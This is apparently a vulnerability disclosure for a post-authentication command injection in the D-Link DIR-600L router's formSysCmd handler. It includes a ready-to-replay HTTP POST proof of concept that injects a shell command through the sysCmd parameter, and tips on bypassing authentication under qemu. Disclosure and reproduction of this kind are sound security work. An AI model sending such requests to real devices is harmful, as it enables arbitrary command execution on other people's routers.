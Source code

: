 ### Overview:

Affected Device: DIR-600L Wireless N150

Affected Firmware Version:  DIR-600L韌體 (2.07WWb01)

Vulnerability: post-auth command injection

Firmware Download Link:  <https://www.dlinktw.com.tw/techsupport/download.ashx?file=3088>

Report Email: [zwx918569613@gmail.com](mailto:zwx918569613@gmail.com)

![](Pasted%20image%2020240511214956.png)

### Vulnerability:

This vulnerability is a post-auth command injection that allows attackers to make arbitrary command execution 

The vulnerability is located in the function `formSysCmd (0x0454c94)` within `boa`

![](Pasted%20image%2020240511221419.png)

The above are places where injections happend.
The function passes the parameter `sysCmd` to `system()`, can lead to command execution by crafting command.


### POC:
To reproduce the vulnerability, you can use the actual device or simulate it using qemu. The following POC can be used:

~~~
POST /goform/formSysCmd HTTP/1.1
Host: 192.168.122.15
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.122.15/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
If-Modified-Since: Sat, 11 May 2024 08:01:35 GMT
Connection: close

sysCmd=ls%20>%20/1.txt;

~~~

(tips:if you use qemu emulation ur likely to patch a few places to work normally , and the Authentication needs to be patched to get to the vuln function ; if you can get a normal device , just login and replay the poc)
### Impact:

redirected but the command has indeed been executed

![](Pasted%20image%2020240511221823.png)